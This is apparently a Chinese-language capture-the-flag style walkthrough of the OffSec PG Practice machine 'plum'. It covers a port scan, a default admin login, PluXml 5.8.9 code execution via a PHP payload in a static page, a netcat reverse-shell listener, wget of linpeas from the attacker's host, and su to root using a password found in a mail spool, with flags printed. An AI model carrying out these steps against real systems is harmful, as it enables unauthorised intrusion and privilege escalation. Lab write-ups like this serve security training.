

###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# plum
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.219.28 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.219.28:22
Open 192.168.219.28:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.56 ((Debian))
|_http-favicon: Unknown favicon MD5: 2D58FC0104110AF4C9BE979DFD8FD83C
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: PluXml - Blog or CMS, XML powered !
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

查看`192.168.219.28`並點擊最下面的`Administration`，以`admin/admin`登入帳號
搜尋[PluXml Blog 5.8.9 Remote Code Execution](https://packetstormsecurity.com/files/176407/PluXml-Blog-5.8.9-Remote-Code-Execution.html)，參考步驟

先點擊`Static pages > Edit`



在裡面加上php的payload，點`save`
開啟nc，點擊`001`的page的`see`可獲得反彈shell，在`/var/www`可獲得local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@plum:/var/www$ cat local.txt
cc13c8e7bb43f85fb3ba456df8621657
```

使用linpeas，看到有mail看看，在`/var/spool/mail/www-data`看到root的密碼
```
www-data@plum:/tmp$ wget 192.168.45.175/linpeas.sh
www-data@plum:/tmp$ chmod +x linpeas.sh
www-data@plum:/tmp$ ./linpeas.sh 

...
╔══════════╣ Mails (limit 50)
   272394      8 -rw-rw----   1 www-data mail         4563 Apr  1 04:04 /var/mail/www-data
   272394      8 -rw-rw----   1 www-data mail         4563 Apr  1 04:04 /var/spool/mail/www-data
...

www-data@plum:/var/spool/mail$ cat www-data
cat www-data
From root@localhost Fri Aug 25 06:31:47 2023
Return-path: <root@localhost>
Envelope-to: www-data@localhost
Delivery-date: Fri, 25 Aug 2023 06:31:47 -0400
Received: from root by localhost with local (Exim 4.94.2)
        (envelope-from <root@localhost>)
        id 1qZU6V-0000El-Pw
        for www-data@localhost; Fri, 25 Aug 2023 06:31:47 -0400
To: www-data@localhost
From: root@localhost
Subject: URGENT - DDOS ATTACK"
Reply-to: root@localhost
Message-Id: <E1qZU6V-0000El-Pw@localhost>
Date: Fri, 25 Aug 2023 06:31:47 -0400

We are under attack. We've been targeted by an extremely complicated and sophisicated DDOS attack. I trust your skills. Please save us from this. Here are the credentials for the root user:  
root:6s8kaZZNaZZYBMfh2YEW
Thanks,
Administrator
...
```

切換成root，到/root可取得proof.txt
```
www-data@plum:/var/spool/mail$ su root
Password: 6s8kaZZNaZZYBMfh2YEW

root@plum:/var/spool/mail# cd /root
root@plum:~# 
root@plum:~# cat proof.txt
3fabcf366229a14ff52af84e7ed64770
```